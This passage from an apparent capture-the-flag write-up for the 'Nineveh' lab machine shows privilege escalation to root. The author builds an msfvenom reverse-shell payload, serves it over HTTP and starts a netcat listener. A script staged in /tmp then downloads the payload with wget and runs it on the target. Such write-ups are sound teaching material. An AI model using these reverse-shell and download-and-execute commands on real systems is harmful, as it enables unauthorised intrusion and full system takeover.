 It looks like it is running as `root`! Use this to get a dedicated shell as `root`:

```bash
# on kali, generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
# on kali, host payload
sudo python3 -m http.server 80
# on kali, setup listener
nc -nvlp 7777
# on target, stage payload
echo '#!/bin/sh' > /tmp/update
echo '(wget -O /tmp/bubba.root.elf http://10.10.14.27/bubba.root.elf && chmod +x /tmp/bubba.root.elf && /tmp/bubba.root.elf) &' >> /tmp/update
chmod +x /tmp/update
```

And this returns a `root` shell:

![root1](./nineveh/root1.png)

---

Looking into the interesting email at `/var/mail/amrois` shows that an interesting process is running:
